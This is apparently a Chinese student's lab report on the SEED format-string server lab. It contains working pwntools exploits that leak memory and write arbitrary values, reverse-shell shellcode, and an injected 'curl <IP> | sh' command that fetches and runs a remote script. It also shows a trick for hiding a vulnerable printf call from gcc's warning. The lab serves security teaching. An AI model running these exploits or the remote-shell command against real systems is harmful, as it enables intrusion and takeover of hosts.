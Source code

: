 # Week3 二进制利用进阶-格式化字符串
`注①：根据文档给出的shellcode可知该实验在i386环境下进行，故报告在Ubuntu20.04下尽量相同环境下完成。`  
`注②：程序根据下方链接中seed官网的代码编译`

## 任务1 编译有漏洞的服务器程序
`gcc -z execstack -o server server.c -m32`  
编译，爆出警告，属于是静态分析（匹配）就能找到的漏洞警告  
![图 2](images/195e23810f8b0b73a1215109248670cc707edbbd2413e0e30e16e32dea970a4d.png)  

## 任务2 分析漏洞程序的栈结构
`b main`断点后`n`步进和`s`步入到目标printf直接`stack 500`在pwndbg中打出栈的结构（从上往下地址从低到高）：
![图 6](images/3f68a6ce7b5138546eeff630df2d1251ef77693c96898913d709bb7593856f6c.png)  


### Question 1
- 1 0xffffc9f0
- 2 0xffffca8c
- 3 0xffffcb30

### Question 2
`0xffffcb30 - 0xffffc9f0 = 160`  
（我用的是 [官网](https://seedsecuritylabs.org/Labs_16.04/Software/Format_String_Server/files/server.c) 的版本，有100的dummy）

## 任务3 崩掉程序
输入一大堆`%s%s%s%s%s%s%s%s%s`就可以崩掉程序，因为栈上的东西不保证都是可读的地址，事实上极大概率不是可读的地址（除非正好有一堆连着初始化了的指针），所以非常容易报段错误（看看21年6月的iphone吧家人们）

因为随便找个格式化字符串的题这段都会崩就不截图了。

## 任务4 泄露程序内存   
### A 泄露任意栈上数据
经典的做法是输入
`AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.`
观察在`41414141`（也就是那四个A）前输出了多少个`.`即可知道格式化字符串在栈上的offset，同时泄露栈上数据
![图 1](images/6808a9a5c7e246caad8a95dfaa3319a14318cbf5d093cf05dc9e40666886491a.png)  

### B 泄露任意堆上数据
**说起来为什么.rodata段算heap的数据，很奇怪**
但不管Task名字，任务是泄露secret的内容，只要组合`$[num]%[fmt]`和一个地址就可以了。  
所以写个exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    # 0x565559e0是secret的地址，---是四字节对齐， 82是上一个任务算出的偏移80 +8/4
    p.sendline(b'%82$s---'+p32(0x565559e0))
    p.close()
```
![图 2](images/b122d61109e3e7450e1e1e222066c2e273060d3f10db8bd1d4c856dc4b7f8972.png)  

## 任务5 任意地址写
先按照要求解释接下来用到的一下代码（轮子）：  
`fmtstr_payload`是`pwnlib`的一个函数  
作用是根据格式化字符串在栈上的offset实现自动生成任意地址写payload  
原理就是简单粗暴的`$[num]%[fmt]`和根据需求使用的`%n`, `%hn`, `%hhn`，然后把地址放到对应位置，通过`%[num]c`复写。

当然在不同要求下也可以手动精心构造比`fmtstr_payload`生成的更短更特殊的格式化字符串，因为之前CTF写过太多了就不在这手搓了，既然本题给出了足够的长度，用现成轮子当然简单稳定高效。

因为targert是data段上的，所以也没偏移什么问题，关ASLR下不泄露地址也没关系。

### A 修改指定地址为任意值
### B 修改指定地址为指定值 0x500
### C 修改指定地址为指定值 0xFF990000
三合一exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    p.sendline(fmtstr_payload(80, {0x56557008: 0x114514}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0x500}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0xFF990000}, write_size='byte'))
    p.close()
```
![图 4](images/533b9ed9e31daded76c882fcdca0b6d62032da5431e53c6bb6696b5a07f5addc.png)  
![图 5](images/cc0583436e33903997c46efed850ef2ac1e40cb4a763c15358f431eebd7035fe.png) 
![图 6](images/a2761e6e46fdceca78603003e710bee567440a3f025b31b2300b4e39fa5e6be9.png)  

 

## 任务6 注入恶意代码
这步是7的前置，就不再赘述了，和7合并。

## 步骤7 反弹shell

其中攻击exp为：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    sc = asm(shellcraft.connect('vps IP', 1337) + shellcraft.dupsh())
    # 这里的malicious_code不是sc，是pdf中的shellcode改了exec中的内容
    p.sendline(fmtstr_payload(80, {0xffffca8c: 0xffffcb6c}, write_size='byte') + malicious_code)
    p.close()
```
需要做的就是把RA复写为shellcode所在地址，因为本题log会打栈地址，所以可以直接计算出栈地址和shellcode地址的偏移，如果关掉自动输出的话，就需要用格式化字符串泄露一个栈上的指向栈上的指针，然后计算偏移。

我的环境直接用shellcraft或者exp-db里的反弹shell代码都不行，所以还是用老师给的`exec('/bin/sh -c "/bin/rm myfile")`来弹（malicious_code）。  
修改的exec的内容为`curl 106.52.237.196 | sh`长度正好，用这个是因为这是我自己改的your-shell的脚本，适配非常多的*inx系统反弹shell，省去很多调试时间（比如目标机器上并没有nc），当然这个题里用pdf里给出的代码弹也是可以的。  

成功反弹shell的截图：  
![图 1](images/d71df5af23abdf8908a4b3d30c4db1b6b421af594f6eed16f950cf0e13bef821.png)  


左上角为攻击机，下方为被攻击的靶机服务器，右上角为接收反弹shell的vps

## 任务8 修复漏洞
根据题目要场景（复读），简单将  
```cpp
printf(msg);
```
改为
```cpp
printf("%s", msg);
```
就可以完成复读同时消除格式化字符串问题了，至于gcc的静态检查，参数个数匹配就可以通过，不会报warning了。

exp还能不能用？显然不行，人脑分析一下`printf("%s", msg)`就知道是当作纯文本输出了，代码甚至贴心的只接收了1499个字节，对1500的缓冲区也不存在obn问题。

但是更有趣的是，我们怎样骗过gcc的静态检查，在不报Warning的情况下仍然编译有漏洞的代码？

我们可以试试很简单却处于学术前沿（这话不是我说的，是某位刚发CCFA的学长说的）的做法：间接调用  
```cpp
...
    // printf(msg);
	int (*func[])(const char * c, ...) = { printf };
	func[0](msg);
...
```
然后发现gcc不报错了，但漏洞还是存在。
![图 7](images/31af4b6832f2cae840f2921170fb6ad90695006255d11d9d56c558fc35bf939b.png)  
